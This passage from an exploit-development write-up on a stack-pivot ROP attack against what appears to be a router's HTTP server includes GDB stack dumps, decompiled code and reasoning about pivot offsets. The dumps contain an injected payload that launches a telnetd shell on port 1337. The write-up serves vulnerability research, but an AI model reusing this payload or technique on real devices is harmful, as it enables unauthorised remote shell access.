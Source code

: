 During the parsing of the fields in the headers, string operations are being done which used NULL byte as terminating byte. This means that it is not convenient to put multiple ROP gadgets in the same line as the header will be truncated. However, it is possible to leave the last byte of the value as NULL which suggest just one ROP gadget per line. With just one gadget, it is not possible to chain the ROP chain to move the attacker’s command address into a register before calling the system function.

### How Many Bytes To Pivot To And Why 0x400?

Viewing the stack on GDB in relation to a possible stack to pivot to can help with deciding on the range to pivot to. To do that, set a breakpoint at `0x44584`, run and look at the stack

```
(gdb) x/19s $sp
0x7ee91e38:     "command=/usr/sbin/telnetd\t-l\t/bin/sh\t-p\t1337;", '#' <repeats 90 times>, 'a' <repeats 65 times>...
0x7ee91f00:     'a' <repeats 200 times>...
0x7ee91fc8:     'a' <repeats 140 times>, "ddddeeeeffffgggghhhh\001" <----JUMPS FROM HERE
0x7ee9206a:     ""
0x7ee9206b:     ""
0x7ee9206c:     ""
0x7ee9206d:     ""
0x7ee9206e:     ""
0x7ee9206f:     ""
0x7ee92070:     "GET"
0x7ee92074:     "/command=/usr/sbin/telnetd\t-l\t/bin/sh\t-p\t1337;", '#' <repeats 90 times>, 'A' <repeats 64 times>...
0x7ee9213c:     'A' <repeats 200 times>...
0x7ee92204:     'A' <repeats 141 times>, "DDDDEEEEFFFFGGGGHHHH"
0x7ee922a6:     "HTTP/1.1\r\n"
0x7ee922b1:     "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0\r\n" <------TO SOMEWHERE AROUND HERE
0x7ee92304:     "Cookie: clickedItem_tab=0\r\n"
0x7ee92320:     "Cache-Control: max-age=0\r\n"
0x7ee9233b:     "1\r\n"
0x7ee9233f:     ".9,*/*;q=0.8\r\n"
```

The lower addresses of the stack contains the current processed string and the higher addresses contains the input the exploit script supplied. With this in mind, the range that should be used is at least above `612` or `0x264` bytes and the closest that was found was 0x400.

Since 0x400 bytes pivot overshoots the current entire header in the stack, more data are added within the header to make that region of the stack reachable and controllable.

## The ROP Chain

In the first part of the ROP chain, the command address is the address of the URL which is a global variable. It this has a fixed address that can be hardcoded since PIE is not enabled.

```c
// sub_E20C

  memset(byte_A6250, 0, 0x80u);
  v40 = index(v36, 63);
  if ( v40 )
  {
    v41 = strlen(v36);
    v42 = v41 - strlen(v40);
    v43 = v36;
    if ( v42 >= 0x80 )
      v42 = 128;
  }
  else
  {
    v43 = v36;
```